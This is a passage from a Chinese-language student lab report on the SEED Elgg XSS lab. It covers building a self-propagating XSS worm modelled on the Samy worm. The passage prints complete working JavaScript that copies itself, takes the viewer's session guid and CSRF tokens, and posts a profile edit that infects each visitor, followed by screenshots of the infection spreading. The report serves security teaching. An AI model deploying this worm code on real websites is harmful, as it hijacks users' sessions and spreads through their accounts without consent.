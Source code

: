 ​		返回查看Alice的简介，发现被修改为了Samy is my hero

<img src="C:\Users\86199\Desktop\web图片\25.png" alt="25" style="zoom:35%;" />

#### 3.4.4 任务四：构造XSS蠕虫

> ​		Samy先在自己的profile中存放恶意代码；（2）Alice访问Samy的主页，Alice的profile显示“Samy is my hero”；（3）Boby访问Alice的主页，Boby的profile也显示“Samy is my hero”。即，如果用户A的主页被篡改/感染了，那么任何访问用户A主页的其他用户也会被篡改/感染，并成为新的蠕虫传播者。

​		调用DOM API构建XSS蠕虫，放入Samy的About me中

```javascript
<script id="worm" type="text/javascript">
    window.onload = function(){
        var headerTag = "<script id=\'worm\' type=\'text/javascript\'>";
        var jsCode = document.getElementById("worm").innerHTML;
        var tailTag = "</" + "script>"; 
        var wormCode = encodeURIComponent(headerTag + jsCode + tailTag);
        var userName=elgg.session.user.name;
        var guid="&guid="+elgg.session.user.guid;
        var ts="&__elgg_ts="+elgg.security.token.__elgg_ts;
        var token="&__elgg_token="+elgg.security.token.__elgg_token;
        //Construct the content of your url.
        var content= token + ts + "&name=" + userName + "&description=<p>samy is my hero"+ wormCode + "</p> &accesslevel[description]=2&briefdescription=&accesslevel[briefdescription]=2&location=&accesslevel[location]=2&interests=&accesslevel[interests]=2&skills=&accesslevel[skills]=2&contactemail=&accesslevel[contactemail]=2&phone=&accesslevel[phone]=2&mobile=&accesslevel[mobile]=2&website=&accesslevel[website]=2&twitter=&accesslevel[twitter]=2" + guid;
        var sendurl = "http://www.xsslabelgg.com/action/profile/edit"
        alert(content)
        var samyGuid=45;
        if(elgg.session.user.guid!=samyGuid){
            var Ajax=null;
            Ajax=new XMLHttpRequest();
            Ajax.open("POST",sendurl,true);
            Ajax.setRequestHeader("Host","www.xsslabelgg.com");
            Ajax.setRequestHeader("Content-Type","application/x-www-form-urlencoded");
            Ajax.send(content);
        }
    }
</script>
```

​		使用Alice身份登录，查看Samy主页，HTTPHeaderLive成功捕捉到Alice主页修改请求

<img src="C:\Users\86199\Desktop\web图片\26.png" alt="26" style="zoom:35%;" />

​		返回查看Alice主页，观察到主页简介已被修改，并且包含了相应的脚本

![28](C:\Users\86199\Desktop\web图片\28.png)<img src="C:\Users\86199\Desktop\web图片\27.png" alt="27" style="zoom:50%;" />

​		再使用Boby身份登录，查看Alice主页，同样被感染，简介被修改，且包含了脚本

<img src="C:\Users\86199\Desktop\web图片\29.png" alt="29" style="zoom:30%;" />
